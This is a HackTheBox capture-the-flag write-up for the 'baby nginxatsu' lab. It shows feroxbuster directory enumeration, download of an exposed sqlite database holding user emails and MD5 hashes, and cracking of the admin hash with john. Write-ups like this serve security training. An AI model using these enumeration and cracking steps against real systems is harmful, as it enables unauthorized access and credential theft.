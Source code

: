 # baby nginxatsu

Completed: Yes
Platform: HackTheBox

In the beginning, I created a new user, logged in, and created a few Nginx configs. Then, I tried to put something in the fields, like the OS command. After that, I started `feroxbuster`. And it found stuff.

```bash
feroxbuster -u http://159.65.54.50:32211/ -w /usr/share/wordlists/dirb/big.txt                                                                                                                                                       1 ⨯

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://159.65.54.50:32211/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200       21l       56w      603c http://159.65.54.50:32211/.htaccess
200        0l        0w        0c http://159.65.54.50:32211/favicon.ico
200        2l        3w       24c http://159.65.54.50:32211/robots.txt
301        7l       11w      162c http://159.65.54.50:32211/static
301        7l       11w      162c http://159.65.54.50:32211/storage
[####################] - 5m     20468/20468   0s      found:5       errors:950    
[####################] - 5m     20468/20468   68/s    http://159.65.54.50:32211/
```

The main thing here is `/storage`which is a url where the Nginx configs are stored. Go there and find tar archive. When you download and extract it, you will find sqlite database, which stores the users and its passwords.

```bash
1	jr	nginxatsu-adm-01@makelarid.es	e7816e9a10590b1e33b87ec2fa65e6cd	pvzDhfIetM6ZRJYrkAOoMbivEtIVlPPeOamI2QlrR4AMAgoAv0zeMt7tM4TE9ayanqZa		2021-07-07 09:42:40	2021-07-07 09:42:40
2	Giovann1	nginxatsu-giv@makelarid.es	293062e161ac6cfb3c5e1e6bdb4669b2	zCg04WCvwo9e3R8ZzEnFx0fy9K4qyQ48l3zyVCC0x9iSzhv7LHS3DFzSANbusYjbrZYg		2021-07-07 09:42:40	2021-07-07 09:42:40
3	me0wth	nginxatsu-me0wth@makelarid.es	60d25455b1cf8fee89257c35764c8683	GXdANM5wU3Me9ANIKVBmibYfQbTWYH5AYH8YMaIAO92EJldKocSh5N0VrVxY6sAn2acr		2021-07-07 09:42:40	2021-07-07 09:42:40
```

Grab the hash from admin and crack it with john:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 XOP 4x2])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
adminadmin1      (?)
1g 0:00:00:00 DONE (2021-07-07 06:19) 1.010g/s 10461Kp/s 10461Kc/s 10461KC/s admincambodia..admin1921
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

You'll receive the flag after logging in as an admin.